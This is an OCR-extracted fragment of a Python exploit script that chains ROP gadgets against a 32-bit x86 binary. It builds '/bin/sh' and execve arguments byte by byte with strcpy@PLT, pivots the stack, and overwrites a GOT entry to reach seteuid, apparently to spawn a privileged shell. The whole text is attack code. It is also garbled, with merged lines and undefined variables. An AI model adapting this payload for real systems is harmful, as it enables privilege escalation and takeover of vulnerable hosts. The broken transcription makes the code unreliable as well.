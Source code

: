 ```
execve_arg1_oct1 = 0x8048143  #08
execve_arg1_oct2 = 0x8048130  #04 
execve_arg1_oct3 = 0x8048f44  #AC 
execve_arg1_oct4 = 0x804819a  #60
#execve_arg2 0x804ac68
execve_arg2_oct1 = 0x8048143  #08
execve_arg2_oct2 = 0x8048130  #04 
execve_arg2_oct3 = 0x8048f44  #AC 
execve_arg2_oct4 = 0x80483a6  #68
#execve_arg3 0x00000000
execve_null_arg = 0x804a360
execve_path_dst = 0x804ac60   #Custom stack location which contains execve_path "/bin/sh"
execve_path_oct1 = 0x8048154  #/
execve_path_oct2 = 0x8048157  #b
execve_path_oct3 = 0x8048156  #i
execve_path_oct4 = 0x804815e  #n
execve_path_oct5 = 0x8048162  #s
execve_path_oct6 = 0x80483a6  #h
execve_argv_dst = 0x804ac68   #Custom stack location which contains execve_argv [0x804ac60, 0x0]
execve_argv1_oct1 = 0x8048143 #08
execve_argv1_oct2 = 0x8048130 #04 
execve_argv1_oct3 = 0x8048f44 #AC 
execve_argv1_oct4 = 0x804819a #60
strcpy_plt = 0x80483d0        #strcpy@PLT
ppr_addr = 0x080485ce         #popl %edi ; popl %ebp ; ret ;

#Stack Pivot
pr_addr = 0x080484a3          #popl %ebp ; ret ;
lr_addr = 0x08048569          #leave ; ret ;

#endianess convertion
def conv(num):
 return struct.pack("<I",num* 268 #Junk
buf += conv(g7)               #movb $0x1,0x804a028; add esp, 0x04; pop ebx; pop ebp; ret;
buf += conv(dummy)
buf += conv(dummy)
buf += conv(dummy)
buf += conv(g6)               #pop esi; pop edi; pop ebp; ret;
buf += conv(esi)              #esi
buf += conv(edi)              #edi
buf += conv(dummy)
buf += conv(g5)               #pop ebx; ret;
buf += conv(ebx)              #ebx
buf += conv(g4)               #mov 0x34(%esp),%eax; ...

for num in range(0,11):
 buf += conv(dummy)

buf += conv(g2)               #pop ebx; pop ebp; ret;
ebx = 0xaaa99b40              #getuid@GOT-0x5d5b04c4
buf += conv(ebx)
buf += conv(off)
buf += conv(g1)               #addl %eax, 0x5D5B04C4(%ebx); ret;
#Custom Stack
#Below stack frames are for strcpy (to copy seteuid@PLT to custom stack)
cust_esp += 4                 #Increment by 4 to get past Dummy EBP.
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
```